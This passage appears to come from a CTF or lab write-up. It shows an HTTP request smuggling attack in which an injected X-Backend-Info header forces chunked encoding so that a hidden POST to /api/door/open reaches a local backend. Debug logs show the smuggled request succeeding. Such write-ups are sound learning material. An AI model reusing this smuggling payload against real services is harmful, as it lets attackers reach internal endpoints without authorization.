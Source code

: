 Yes, it complains. That's okay, if it still is firing the internal requests to the backend.

With some debug prints in place, we can see how the request is received by the frontend...

```txt
[*] Debug HTTP POST header + body
Host: 172.16.239.137:5000
User-Agent: curl/7.79.1
Accept: */*
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
X-Backend-Info: {"Transfer-Encoding": "chunked"}
Content-Length: 207
Content-Type: application/x-www-form-urlencoded
Connection: close

0

POST /api/door/open HTTP/1.1
Host: 127.0.0.1:5001
Content-Length: 10
Accept: */*
Content-Type: application/x-www-form-urlencoded
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
Connection: close

door_id=17
------------------------------
172.16.239.137 - - [20/Jul/2022 10:10:24] "POST /api/status HTTP/1.1" 501 -
```

... and what is sent from the frontend to the (local) backend.

```txt
[*] Debug HTTP POST header + body
Host: 127.0.0.1:5001
User-Agent: python-requests/2.20.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
Content-Length: 207


------------------------------
127.0.0.1 - - [20/Jul/2022 10:10:24] "POST /api/status HTTP/1.1" 501 -

[*] Debug HTTP POST header + body
Host: 127.0.0.1:5001
Content-Length: 10
Accept: */*
Content-Type: application/x-www-form-urlencoded
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
Connection: close

door_id=17
------------------------------
127.0.0.1 - - [20/Jul/2022 10:10:24] "POST /api/door/open HTTP/1.1" 200 -
```
